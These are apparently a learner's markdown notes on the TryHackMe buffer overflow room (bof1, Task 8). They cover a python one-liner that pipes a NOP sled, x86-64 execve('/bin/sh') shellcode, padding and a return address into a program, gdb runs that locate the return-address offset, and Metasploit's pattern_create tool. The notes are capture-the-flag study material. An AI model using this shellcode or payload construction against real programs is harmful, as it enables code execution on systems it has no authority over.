 	- To make it easy to pass the payload to an input program, you can use python:
	- `python -c "print (NOP * no_of_nops + shellcode + random_data * no_of_random_data + memory_address)"`
	- In this particular module/challenge *something* like:
	`python -c "print('\90' * 30 + '\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05' + '\x41' * 60 + '\xef\xbe\xad\xde') | ./program-name"
	- lol `deadbeef` ^ 
	- There can be cases where you need to pass xargs before the ./prrogram-name
- *oof. After a while, a decent while, I had to look up some additional information because my knowledge-set with debugging and with C is very limited at this stage (if even existent!)*
---
**This entire part here is workings alongside the following write-up for https://tryhackme.com/room/bof1 - Task 8**

- https://l1ge.github.io/tryhackme_bof1/ **(thanks bud!!!!!!! - real good writeup, great for learning - check this out, for sure.)**
	- The use of `gdb` is real
		- `gdb program-name`
		- Finding out how many characters/bytes the program can handle (for the context of this particular module/scenario - also a handy command to know - pretty much the first time I also am using gdb - like the writeup above)
		- `(gdb) run $(python -c "print('A'*140)")`
			- See the outcomes you get, what can be accepted or is 'normal' and what isn't
			- The tactic here is to find out where the base-point `rbp` is and also where the return address starts and finishes. Also how big these addresses are (how many bytes in size - again the writeup covers this so I won't rewrite what is written, read it up, real good)
		-  -----------
		- *144 characters
		- ***Inferior 1 (process 13411) exited normally***
		- -----------
		- *145 characters*
		- ***0x0000000000000000 in ?? ()****
		- -----------
		- *This started with **146 to 151** characters*
		- ***0x0000000000400595 in main ()***
		- *Is this rbp?* 
		- -----------
		- *152 characters*
		- ***0x0000000000400500 in do_global_dtors_aux ()***
		- *This can be considered the START of the RETURN ADDRESS*
		-  -----------
		- *153 characters*
		- ***0x0000000000400041 in ?? ()***
		- -----------
		- *158*
		- ***0x0000414141414141 in ?? ()***
		- *6-bytes*
		- *END of the RETURN ADDRESS*
		- -----------
		- ***159***
		- ***0x0000000000400563 in copy_arg ()***
		- -----------
		- See the patterns being created there, we know (since we have access to the source code in this instance - which won't be the case otherwise...) that the buffer goes from 0-140. 
			- Seems like there are six-bytes that are kept for the return address, which starts to get the overflow of the character "A" (x/41) from 152/153 onwards to 158 characters being input to the program
	- Metasploit to double-check the above findings:
		- Metasploit can be used as well to generate a random length pattern to confirm if the return address we identified above is accurate or not
		- Generate some a pattern of random length with the `pattern_create.rb` tool from the MSF (Metasploit Framework)
			- Going with a 200 byte pattern in this instance as per that write-up (so not quite random, but 200)